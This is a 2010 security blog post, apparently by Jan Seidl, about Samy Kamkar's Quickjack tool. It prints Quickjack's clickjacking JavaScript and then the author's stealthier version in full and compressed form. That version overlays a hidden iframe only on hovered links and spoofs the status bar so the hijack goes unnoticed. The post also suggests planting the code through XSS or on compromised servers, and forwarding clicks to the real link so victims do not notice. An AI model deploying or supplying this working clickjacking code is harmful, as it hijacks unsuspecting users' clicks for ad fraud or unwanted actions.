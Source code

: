 ```yaml
---
title: Playing around with Samy’s Quickjack clickjacker
author: Jan Seidl
type: post
date: 2010-12-07T22:55:41+00:00
url: /posts/playing-around-with-samys-quickjack-clickjacker/
categories:
  - Malware
tags:
  - clickjacking
  - javascript

---
```

In the past few days I&#8217;ve started following the work of [Samy Kankar][1], which has some great work. Among all of them, I&#8217;ve almost-randomly picked one to play, [Quickjack][2].

_From Samy&#8217;s project page:_

> Quickjack is a tool developed to easily create pages with the capability to clickjack users no matter where they click on the page. The tool has an extremely intuitive interface and is literally a point-and-click tool. It also allows frame slicing and other features such as referral scrubing and more. 

Quickjack provides an easy-to-use (ridiculous to use) <acronym title="Graphical User Interface">GUI</acronym> to generate the clickjacking code. Quickjacks&#8217;s clickjacking method consists on the classic `iframe` overlay.

This is the original expanded Quickjack-generated relevant JavaScript code (comments by me):

{{< highlight javascript >}}
var d=document;

// Listen to event
if(!d.all) d.captureEvents(Event.MOUSEMOVE);
d.onmousemove = function(e){

	var i = d.getElementById("v").style;

        // Update iframe position
	i.left = d.all ? event.clientX + d.body.scrollLeft : e.pageX;
	i.top = d.all ? event.clientY + d.body.scrollTop : e.pageY;
};
{{< /highlight >}}

Basically, it listens to the `mousemove` event and sets the `top` and `left` <acronym title="Cascading Style Sheets">CSS</acronym> proprierties to match the cursor&#8217;s `X` and `Y` positions.

## Going further

Problem to my use was that, by design, Samy&#8217;s approach jacks EVERY click, even if not on an anchor. The cursor staying on `pointer` (the little hand) all the time was telling out the felony. 

In order to make a more subtle approach, I&#8217;ve hacked up Samy&#8217;s code a little to add hover element (event target) detection to apply the overlay only when hovering `a` objects.

_NOTE: Not tested on elements within the anchor tag._
  
_NOTE: Tested on IE7+ and decent browsers (FFox, Chrome)._
  
_NOTE: On Chrome, `window.status` was successfully spoofed. Bonus!_
  
_NOTE: Both codes (Samy and mine) works. Each one has its own objectives and fulfill them well._

## Talk is cheap, show me the code!

{{< highlight javascript >}}
var d=document;

if (!d.all) d.captureEvents(Event.MOUSEMOVE);

var i = d.getElementById("v").style;

// Set overflow from JavaScript, prevent
// some filters from blocking the iframe
i.overflow = 'hidden';

d.onmousemove = function(e) {

	var v_left = d.all?event.clientX+d.body.scrollLeft:e.pageX;
	var v_top = d.all?event.clientY+d.body.scrollTop:e.pageY;

	// Internet Explorer offset fix
	if (d.all) {
	        v_left -= 5;
        	v_top -= 5;
	}//end if

	// Update position
	i.left = v_left;
	i.top = v_top;

	// Hides the iframe to prevent
	// pointer 'hand' cursor from appearing
	i.display = 'none';

	// Just for the old browser's long tail
	window.status = null;

	var elem = (d.all) ? event.srcElement : e.target;

	// If we got a link...
	if (elem.nodeName == 'A') {

	    // Just for the old browser's long tail
	    window.status = elem.href;

	    // Internet Explorer needs a larger 'hitbox'
	    i.width = 10;
	    i.height = 10;

	    // Deliver the evil
	    i.display = 'block';
	}//end if

};
{{< /highlight >}}

Pretty bigger than the original huh? But, fear not! Compressed they are much all the same.

Original Compressed (relevant snippet)

{{< highlight javascript >}}
var d=document;if(!d.all)d.captureEvents(Event.MOUSEMOVE);d.onmousemove=function(e){var i=d.getElementById("v").style;i.left=d.all?event.clientX+d.body.scrollLeft:e.pageX;i.top=d.all?event.clientY+d.body.scrollTop:e.pageY};
{{< /highlight >}}

My Hack, Compressed (relevant snippet) 

{{< highlight javascript >}}
var d=document;if(!d.all){d.captureEvents(Event.MOUSEMOVE)}var i=d.getElementById("v").style;i.overflow="hidden";d.onmousemove=function(f){var a=d.all?event.clientX+d.body.scrollLeft:f.pageX;var b=d.all?event.clientY+d.body.scrollTop:f.pageY;if(d.all){a-=5;b-=5}i.left=a;i.top=b;i.display="none";window.status=null;var c=(d.all)?event.srcElement:f.target;if(c.nodeName=="A"){window.status=c.href;i.width=10;i.height=10;i.display="block"}};
{{< /highlight >}}

## Code is cheap, show me the DEMO!

Check out the demo [here][3]. The link on this page SHOULD take you to Google, but **it won&#8217;t**. (:

## How bad is Clickjacking?

Browsers&#8217; JavaScript support evolved past the years. Nowadays, a human-initiated click must take place before some JavaScript can run so if you want to run something that you might not get the user to click by his free will, clickjacking might be the answer.

Most adult industry sites use this kind of technique (in many ways different than this) to trigger pop-up advertisements.

## Ok, Clickjacking will make me (or my users) click some ads, so what?

Well, there are many ways that a legitimate click can be used, but I&#8217;ll let this open for discussion.

## Deploying the plague

This can be acomplished in many ways, the one&#8217;s that come first off my mind are: XSS and physical document infection by appending code after server compromise.

## Any further ideas?

I still wondering if it would be useful if the true link actually gets followed after click has been hijacked. If so, it&#8217;s very easy to implement with a `click` observer on the `iframe` to take `window.location` to the real `href` beneath it. Maybe when I get another extra time I&#8217;ll play on that.

[]s

 [1]: http://www.samy.pl/
 [2]: http://www.samy.pl/quickjack
 [3]: https://wroot.org/code/security/web/javascript/clickjack/

